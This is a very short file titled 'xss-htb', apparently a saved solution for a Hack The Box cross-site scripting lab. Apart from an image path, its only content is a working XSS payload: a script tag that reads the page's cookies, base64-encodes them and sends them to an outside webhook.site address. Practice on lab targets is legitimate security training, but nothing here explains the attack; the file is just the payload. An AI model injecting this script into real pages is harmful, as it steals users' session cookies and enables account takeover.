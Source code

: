 # xss-htb
<script>fetch('https://webhook.site/25a73692-75eb-4c58-b1f9-43620619c67f?cookie='+btoa(document.cookie))</script>
